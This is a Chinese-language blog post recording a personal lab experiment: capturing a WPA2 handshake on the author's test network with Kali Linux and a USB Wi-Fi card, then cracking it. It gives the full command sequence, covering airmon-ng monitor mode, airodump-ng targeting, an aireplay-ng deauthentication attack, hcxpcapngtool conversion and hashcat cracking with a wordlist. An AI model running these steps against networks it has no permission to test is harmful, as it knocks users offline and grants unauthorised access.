








# 使用Kali Linux和外置网卡捕获并爆破WPA2握手包

**很早就想复现的一个实验，最近刚刚好想起来**
<!--more-->

## 系统环境

宿主机: Windows10

GPU：RTX4070TI

虚拟机软件：VMware Workstation 17 Pro

虚拟机镜像：Kali-linux 2025.3

外置无线网卡：NT-AX1800M(USB3.0-WiFi6免驱版)

## 实验步骤

启动kali虚拟机，因为我这个网卡是免驱的，直接插上去就行

但是要注意，由于是USB3，因此需要在VMware的设置里把USB的兼容性改成USB3.1



设置完成后将网卡连接至kali虚拟机，然后在终端输入`ifconfig`命令

如果能看到 `wlan0`，说明网卡已经被系统成功识别了



确认网卡正常后，我们使用`airmon-ng`开启网卡的监听模式（注意这里要使用root权限运行）

```bash
airmon-ng start wlan0
```



当网卡的名称显示为`wlan0mon`，说明监听模式开启成功



然后我们可以用`airodump-ng `先去扫描一下当前环境中的WiFi网络

```bash
airodump-ng wlan0mon --band abg
# wlan0mon：处于监听模式的无线网卡接口名（根据你之前的输出，你的接口名是 wlan0mon）。
# --band a：指定扫描 5GHz 频段。a 代表 802.11a，即 5GHz 网络的标准。
# --band abg：指定扫描 2.4GHz（b/g）和 5GHz（a）的所有频道。
```




发现可以成功扫到我们的测试WiFi：`openwrt-204`

然后我们开始尝试监听这个WiFi

```bash
airodump-ng -c 11 --bssid xx:xx:xx:xx:xx:xx -w hack wlan0mon

# -c 11	     	         强制网卡只监听信道 11，不跳频。必须与目标 AP 的信道一致
# --bssid		         过滤只显示该 BSSID 的 AP 及其客户端，忽略其他网络
# 44:F7:70:C3:7A:E7	     目标 AP 的 MAC	
# -w hack	输出文件前缀	生成 hack-01.cap、hack-01.csv 等文件
# wlan0mon	网卡接口名	处于监听模式的无线网卡
```

可以监听到它当前是有设备连接的



所以我们可以使用以下命令，发起Deauth攻击，从而获取WPA2的握手包

> D**eauth 攻击的原理:**
> 
> **正常流程:**
> 
> 1. 客户端连接到 AP
> 
> 2. 客户端想断开时，发送 Deauth 帧给 AP
> 
> 3. AP 收到后，断开该客户端的连接
> 
> **攻击原理:**
> 
> 1. aireplay-ng 伪造一个来自 AP 的 Deauth 帧
> 
> 2. 客户端收到后，以为 AP 让它断开
> 
> 3. 客户端被迫断线
> 
> 4. 客户端自动重连（重新进行 4 次握手）
> 
> 5. airodump-ng 趁机捕获握手包

```bash
aireplay-ng -0 3 -a xx:xx:xx:xx:xx:xx -c xx:xx:xx:xx:xx:xx wlan0mon

# -0	    攻击模式 0 = Deauthentication（反认证/踢下线攻击）
# 3	        发送次数
# -a	    AP 的 BSSID（目标接入点的 MAC 地址）
# -c	    客户端的 STATION MAC（目标设备的 MAC 地址）
# wlan0mon	网卡接口名称（处于监听模式）
```



看到终端输出 `[WPA handshake: xx:xx:xx:xx:xx:xx]` 就说明握手包捕获成功了

然后我们用以下命令把捕获到的`.cap`文件转为`.hc22000`格式

```bash
hcxpcapngtool -o hash.hc22000 hack-01.cap
```

最后使用如下命令，调用`hashcat`爆破即可得到测试WiFI的连接密码

```bash
hashcat -m 22000 hash.hc22000 rockyou.txt
```




---

> 作者: [Lunatic](https://goodlunatic.github.io)  
> URL: https://goodlunatic.github.io/posts/64b0fb7/  

